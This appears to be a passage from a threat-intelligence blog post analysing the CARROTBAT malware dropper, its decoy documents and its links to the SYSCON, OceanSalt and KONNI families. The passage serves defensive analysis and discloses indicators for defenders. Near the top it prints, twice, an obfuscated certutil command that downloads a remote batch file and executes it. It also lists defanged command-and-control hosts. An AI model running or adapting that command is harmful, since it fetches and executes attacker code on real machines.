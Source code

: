 


C: && cd %TEMP% && c^e^r^tutil -urlca^che -spl^it -f https://881.000webhostapp[.]com/1.txt && ren 1.txt 1.bat && 1.bat && exit




1

C: && cd %TEMP% && c^e^r^tutil -urlca^che -spl^it -f https://881.000webhostapp[.]com/1.txt && ren 1.txt 1.bat && 1.bat && exit





This command will attempt to download and execute a remote file via the Microsoft Windows built-in certutil utility. More information on this technique and the CARROTBAT malware family may be found within the Appendix.
The 29 unique CARROTBAT malware samples have compile timestamps between March 2018 to September 2018. Of these 29 unique samples, 11 unique decoy documents were leveraged in attacks, as seen in the figure below:

Figure 3 Timeline of decoy documents being dropped by CARROTBAT
 
A majority of the decoy documents targeting victims in Korea had subject matter related to cryptocurrencies. In one unique case, the decoy contains a business card belonging to an individual working at COINVIL, which is an organization that announced plans to build a cryptocurrency exchange in the Philippines in May 2018.
Additional lure subjects included timely political events, such as relations between the U.S. and North Korea, as well as a trip by U.S. President Donald Trump to a summit in Singapore.
Payloads for the CARROTBAT samples varied. Originally, between the periods of March 2018 to July 2018, multiple instances of the SYSCON malware family were observed. These samples communicated with the following hosts via FTP for C2 communication:

ftp.byethost7[.]com
ftp.byethost10[.]com
files.000webhost[.]com

Beginning in June 2018, we observed the OceanSalt malware family being dropped by CARROTBAT. These samples continue to be used at the time of this writing, and were observed communicating with the following host for C2 communication:

61.14.210[.]72:7117

 
Interesting Ties with Other Threat Activity
As stated earlier within this blog, there is infrastructure overlap between the CARROTBAT and KONNI malware families. KONNI is a RAT that is believed to have  been in use for over four years, with a wide array of functionalities, often leveraging free web hosting providers like 000webhost for its C2 infrastructure. This particular malware family has yet to be attributed to a named group at the time of this writing, however, targeting has historically focused on the Southeast Asia region.
Another relationship we have mentioned repeatedly is the use of the SYSCON malware family. This particular malware family was first reported in October 2017 and has been observed delivering decoy documents pertaining to North Korea. The malware is generally unsophisticated, making use of remote FTP servers for C2 communication.
Below you can see the KONNI usage highlighted in the gold flags and SYSCON highlighted in the purple flags.
 